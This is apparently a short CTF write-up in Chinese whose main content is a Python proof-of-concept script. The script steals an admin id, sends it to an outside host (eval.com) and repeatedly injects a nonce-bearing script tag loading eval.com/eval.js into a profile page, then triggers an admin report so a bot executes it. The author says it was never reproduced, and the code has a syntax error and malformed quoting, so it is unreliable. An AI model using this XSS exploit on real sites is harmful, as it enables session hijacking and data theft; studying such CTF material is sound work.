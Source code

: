 大概用了以下几个脚本。写完没来得及做测试环境就关了。最近虽然环境一直开着，但是有些事给耽误复现了。

也就是说.....至今还未复现。



**poc.py**

```python
import re
import requests
import time

# 获取管理员id
def getAdminid():
    return re.search("id=([0-9a-zA-Z]*)\">admin2<" , requests.get("https://h4x0rs.date/profile.php" , cookies={"PHPSESSID":"p28vu9m2h0uj7g04m73uo4fsm6"}).text).group(1)

# 从服务器端a.txt获取nonce
def getNonce():
	return requests.get("http://eval.com/a.txt").text

# 修改资料页内容
def reProfile(ec):
	url="https://h4x0rs.date/profile.php"
	cookie=
	headers={
		"Cookie":"PHPSESSID=8fut6nfo8f449hu3t6ft2qp3s3",
	}

	data={
		"intro":ec,
		"submit":"submit",
	}

	print(ec)
	r=requests.post(url,data=data,headers=headers)

# 发送report
def sendReport():
	codeurl="https://h4x0rs.date/profile.php?id=428222d40f05cfc8f1a1f2b550b29952db37d2016899a9f2e0534f630739c1e4"
	requests.post("https://h4x0rs.date/do_report.php",data={"url": codeurl,"submit": "submit"} , cookies={"PHPSESSID":"p28vu9m2h0uj7g04m73uo4fsm6"})
	print("send url ok!")


# 修改user2资料页中的nonce
def changeNonce(nonce):
	evalcode="<script src=//eval.com/eval.js nonce='"+nonce+"''></script>"
	reProfile(evalcode)


# 首先获取到admin的id，并保存到b.txt
id = getAdminid()
requests.get("http://eval.com/save_b.php?b="+id)

#发送report，从而加载eval.php
sendReport()

# 获取nonce，并修改内容。
while(1):
	nonce=getNonce()
	if(nonce !=''):
		changeNonce(nonce)
	time.sleep(0.5)
```